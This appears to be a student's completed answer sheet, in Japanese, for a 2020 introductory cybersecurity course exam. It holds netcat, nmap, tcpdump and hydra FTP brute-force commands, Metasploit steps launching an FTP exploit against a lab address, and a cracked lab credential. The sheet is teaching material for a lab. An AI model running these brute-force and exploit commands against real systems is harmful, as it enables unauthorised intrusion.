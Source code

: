 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
# ここに回答を記述
nc  -lvp XXXX(ポート番号)
```
### クライアント側コマンド

```sh
# ここに回答を記述
nc XXX.XXX.XX.X(サーバーのIPアドレス)　XXXX(ポート番号)
```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->
omas2:foobar
```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# ここに回答を記述
nmap 192.168.33.0-127
```

### 2. version scan

```sh
# ここに回答を記述
nmap -sV
```

## 問4 [Metasploit Framework]

```sh
# ここに回答を記述
msfconsole
search vftpd type:exploit
use exploit/windows/ftp/vermillion_ftpd_port
show options
set RHOSTS 192.168.33.5
show options
run
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# ここに回答を記述
hydra -L user.list -P passwd.list -t 4 192.168.33.5 ftp

```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述
tcpdump port 80 and host 192.168.33.5
```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
70
```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->
・仮想環境
・通信の確認方法
・GUICUIのきりかえ
・パスワードクラックの仕組み
・ウイルスの作成方法

こんなに簡単にパスワードを解析したりウイルスを作れるのは凄いが、セキュリティ対策もしっかりしないといけないと思った。
```
